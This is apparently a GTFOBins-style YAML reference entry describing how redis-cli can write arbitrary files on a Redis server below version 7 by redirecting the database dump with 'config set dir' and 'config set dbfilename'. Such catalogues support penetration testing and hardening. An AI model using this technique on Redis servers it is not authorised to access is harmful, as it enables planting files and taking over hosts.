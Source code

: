 ```yaml
---
description: This works with versions lower than 7.
functions:
  file-write:
    - description: Write files on the server running Redis at the specified location. Written data will appear amongst the database dump, thus it might not be suitable for all kind of purposes.
      code: |
        IP=127.0.0.1
        redis-cli -h $IP
        config set dir dir_to_write_to
        config set dbfilename file_to_write
        set x "DATA"
        save
---
```

